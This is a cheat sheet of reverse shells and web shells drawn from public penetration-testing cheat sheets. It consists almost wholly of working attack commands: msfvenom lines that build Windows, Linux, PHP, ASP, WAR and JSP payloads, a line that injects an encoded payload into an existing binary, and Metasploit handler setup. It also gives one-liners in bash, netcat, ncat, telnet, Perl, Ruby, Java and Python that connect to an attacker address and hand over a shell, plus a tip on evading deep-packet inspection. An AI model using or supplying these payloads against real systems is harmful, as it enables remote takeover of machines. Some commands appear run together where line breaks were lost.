 # Shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet: [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)​

​[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)​

### Windows <a href="#windows" id="windows"></a>

**Meterpreter**

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=ip LPORT=443 -f exe -o met_https_reverse.exe
```

**Non-staged payload**

```
msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handlerset payload windows/shell_reverse_tcp
```

**Staged payload**i

```
This must be caught with metasploit. It does not work with netcat.
```

```
use exploit/multi/handlerset payload windows/shell/reverse_tcp
```

### Inject payload into binary <a href="#inject-payload-into-binary" id="inject-payload-into-binary"></a>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux <a href="#linux" id="linux"></a>

## Binary <a href="#binary" id="binary"></a>

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f elf > shell.elf
```

## Bash <a href="#bash" id="bash"></a>

```
0<&196;exec 196<>/dev/tcp/ip/80; sh <&196 >&196 2>&196
```

```
bash -i >& /dev/tcp/ip/8080 0>&1
```

## Php <a href="#php" id="php"></a>

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat <a href="#netcat" id="netcat"></a>

**Bind shell**

```
#Linuxnc -vlp 5555 -e /bin/bashnc ip 5555​# Windowsnc.exe -nlvp 4444 -e cmd.exe
```

## **Reverse shell** <a href="#reverse-shell" id="reverse-shell"></a>

```
# Linuxnc -lvp 5555nc ip 5555 -e /bin/bash​# Windowsnc -lvp 443nc.exe ip 443 -e cmd.exe
```

## **With -e flag** <a href="#with-e-flag" id="with-e-flag"></a>

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## Ncat <a href="#ncat" id="ncat"></a>

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --sslncat -v ip 5555 --ssl
```

## Telnet <a href="#telnet" id="telnet"></a>

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Perl <a href="#perl" id="perl"></a>

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby <a href="#ruby" id="ruby"></a>

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java <a href="#java" id="java"></a>

```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

## Python <a href="#python" id="python"></a>

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Web-shells  <a href="#web-shells---platform-independent" id="web-shells---platform-independent"></a>

## PHP <a href="#php-1" id="php-1"></a>

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.php
```

## ASP <a href="#asp" id="asp"></a>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f asp > shell.asp
```

## WAR <a href="#war" id="war"></a>

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f war > shell.war
```

## JSP <a href="#jsp" id="jsp"></a>

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.jsp
```

​ ​
